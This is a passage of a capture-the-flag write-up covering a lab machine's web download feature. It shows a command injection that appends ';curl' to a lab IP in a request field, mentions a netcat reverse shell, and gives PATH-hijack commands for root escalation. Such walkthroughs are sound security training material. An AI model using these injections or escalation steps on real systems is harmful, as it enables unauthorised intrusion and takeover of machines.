 Still nothing interesting, let's move on.  
Once the hardcoded credentials have been entered, we can access the site. The website has several pictures which you can choose to download.  
Let's intercept the download request with Burp Suite to see if we can inject.  
Here is the original request:  

<img width="302" alt="image" src="https://user-images.githubusercontent.com/114961392/201583236-ccb61e24-1263-4ff4-9d32-6823093ec5f5.png">

To test if there is an injection vulnerability, I will set up a python web server on my local machine and try connecting through the request.  
In the request, after "filetype=jpg", I will add ";curl 10.10.14.7/test", send the request and see if anything comes up on the server (make sure to URL encode the injection).  

<img width="300" alt="image" src="https://user-images.githubusercontent.com/114961392/201584095-c5a22f4c-acbe-4fa8-9f4a-e1836d23c0b1.png">

Success! As we can see, it sent a request to my server. This is proof of concept that there is an injection vulnerability.  

<img width="372" alt="image" src="https://user-images.githubusercontent.com/114961392/201584361-d02f320a-1a64-444c-afbb-6d1bfc84a45f.png">

## Exploitation

Now let's craft a reverse shell to connect back to my local machine using [revshells.com](https://www.revshells.com/). I will use the "nc mkfifo" option with "sh".  
Let's URL encode that and inject into the request after setting up a netcat listener.    

<img width="296" alt="image" src="https://user-images.githubusercontent.com/114961392/201584966-32240a26-64f4-471f-983d-e7c15a4be6fb.png">

WOOSHKAH! We have a reverse shell. I will use the usual terminal upgrade technique to get a more stable shell.  
**script /dev/null -c bash  
ctrl-z  
stty raw -echo; fg**  

<img width="306" alt="image" src="https://user-images.githubusercontent.com/114961392/201585184-18cd1410-918a-4f56-b8ef-d54ef1864df5.png">

Now that we are in, we can navigate to the user flag.  

<img width="169" alt="image" src="https://user-images.githubusercontent.com/114961392/201585584-a9462dab-c112-4db1-990a-7bcc76972105.png">

## Privilege Escalation

By using the "sudo -l" technique, we can see that we can run /opt/cleanup.sh script from root.  

<img width="470" alt="image" src="https://user-images.githubusercontent.com/114961392/201787700-eaaebeb9-601b-4d62-88ef-cb0399d4828c.png">

Let's have a look at the script.  

<img width="353" alt="image" src="https://user-images.githubusercontent.com/114961392/201787789-3dec11da-987c-4133-8d19-c49e8db7db83.png">

The script is just moving the contents of the **log/photobomb.log** file and moving it to **log/photobomb.log.old** then clearing the log file to 0 bytes. However, it does not look like it is using absolute path. Let's try take advantage of this. If we add **/bin/bash** to a new **cd** file in **/tmp**, then give read, write and execute permissions to file, then change the **PATH** to **/tmp**, it should work.  
**echo "/bin/bash" > cd  
chmod 777 cd  
sudo PATH=/tmp:$PATH /opt/cleanup.sh**  
